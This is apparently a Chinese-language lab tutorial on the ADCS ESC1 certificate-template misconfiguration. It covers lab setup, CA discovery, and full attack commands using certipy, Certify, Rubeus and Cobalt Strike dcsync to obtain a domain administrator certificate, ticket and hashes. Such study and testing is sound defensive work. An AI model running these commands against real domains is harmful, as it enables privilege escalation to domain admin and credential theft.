


# 前言

> Active Directory Certificate Services (ADCS) 是一个服务器角色，允许公司构建公钥基础设施。这使得组织能够为内部域提供公钥加密、数字证书和数字签名的功能。
>
> 虽然使用 ADCS 可以为公司的网络提供有价值的功能，但配置不正确的 ADCS 服务器可能会使攻击者获得对域的额外未经授权的访问权限。

# 环境搭建

## 安装AD CS

首先需要安装证书服务


现在多了一个AD CS，勾选上证书颁发机构Web注册和证书注册Web服务


接下来就在域控上安装

## 配置服务


安装完成后配置AD证书服务


接下来配置角色服务，选择证书颁发机构和证书颁发机构Web注册


后续配置截图


签名我选择的是SHA256





## 配置证书注册Web服务

上一步完成会告诉你是否要配置其他角色服务，选择是，按照如下步骤配置

再次进入到AD CS配置界面，选择证书注册Web服务


配置完成后


在域控服务器上看到了AD CS服务器

# 证书颁发机构信息获取

## certutil

在域内成员的机器上输入可以定位到CA服务器

```
certutil -config  - -ping
```


```
certutil -dump	# 查看所有的CA服务器
```


## powershell

除了certutil工具还可以用powershell来定位CA服务器

```
获得ca名称 (Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration").Active 

更多细节信息 $CAName = (Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration").Active; 
Get-Itemproperty -Path “HKLM:\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\$CAName”
```

但是我这里注册表中并没有找到这个项

## 测试连通性

```
确认NTLM协议（后面中继要用） curl http://192.168.1.10/certsrv -I
```


# ECS1

## 环境配置

攻击方式：攻击者可以在证书服务请求中指定主体名称，则请求者可以请求任何人（域管）的证书

前面都是一样，ECS1的问题就是环境配置的问题

进入证书配置模板（certtmpl.msc），复制工作站身份验证模板，并且做一些修改




编辑新模板的属性，需要有客户端身份验证


在安全属性中


添加Domain Users，并且允许注册


使用者名称选择在请求中提供


接下来在证书颁发机构中新建要颁发的证书模板


选择刚才创建的模板


ESC1利用前提条件：

- **msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT**
  表示基于此证书模板申请新证书的用户可以为其他用户申请证书，即任何用户，包括域管理员用户
- **PkiExtendedKeyUsage: Client Authentication**
  表示将基于此证书模板生成的证书可用于对 Active Directory 中的计算机进行身份验证
- **Enrollment Rights: NT Authority\Authenticated Users**
  表示允许 Active Directory 中任何经过身份验证的用户请求基于此证书模板生成的新证书

## 漏洞发现

使用certify.exe

```
Certify.exe find /vulnerable
```


发现了漏洞的证书模板，这些条件满足就是ECS1的利用条件

也可以利用Certifpy工具（https://github.com/ly4k/Certipy），只需要能连到对应的机器即可

```
certipy find -u 'win10test@town.domain'  -password 'xxxx' -dc-ip 192.168.1.10 -vulnerable -stdout
```


在最上面有CA服务器的名称和漏洞模板证书


## 漏洞利用

### certipy

用这个工具可以在域外使用，用linux的机器，我在windows上ldap认证会失败

利用我们创建的漏洞模板ECS1Tmpl为域管请求证书

```
certipy req -u 'win10test@town.domain' -p 'xxxx' -target 192.168.1.10 -dc-ip 192.168.1.10 -ca "town-DC-CA" -template 'ECS1Tmpl' -upn administrator@town.domain
```


接着转换格式，请求TGT，DCSync或者PTT
```angular2html
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
```
但是这里出现了这个问题


这是因为我自己搭建的环境未将 KDC 配置为使用证书 （PKINIT） 进行 Kerberos 身份验证


不过可以直接利用命令来获取shell，然后就可以不需要获取hash再通过wmiexec或者psexec等进行横向了

```angular2html
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10 -ldap-shell
```


### Certify.exe

这个需要在域内进行使用

```
Certify.exe request /ca:town.domain\town-DC-CA /template:ECS1Tmpl /altname:domadmin
```


将cert.pem的值保存下来，转化一下

```
#通过openssl转换证书
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /ptt

#也可以将pfx证书转换为base64
cat cert.pfx | base64 -w 0

Rubeus.exe asktgt /user:administrator /certificate:base64 /aes256 /nowrap

Rubeus.exe asktgt /user:administrator /certificate:base64 /aes256 /nowrap
Rubeus.exe asktgt /user:Administrator /certificate:base64 /ptt

CS可直接执行：
beacon> dcsync attack.cn ATTACK\krbtgt
beacon> dcsync attack.cn ATTACK\Administrator
beacon> dcsync attack.cn 
```

剩下的ECS2-8可以参考https://xz.aliyun.com/t/13735

总的来说都是证书模板等配置问题导致的不同的ADCS攻击方式，都可以用certipy这个工具在域外来进行操作，后续有时间的话可以把这几个攻击方式都补上，平常遇到了关于有CA服务器的话可以来certipy这个工具来发现是否存在ADCS攻击，有的话再去寻找利用方式吧

 

参考链接：

https://yangsirrr.github.io/2021/08/16/adcs-esc1-esc8-gong-ji-fang-shi/#toc-heading-124

https://xz.aliyun.com/t/11627

https://blog.csdn.net/Adminxe/article/details/129353293

https://xz.aliyun.com/t/13735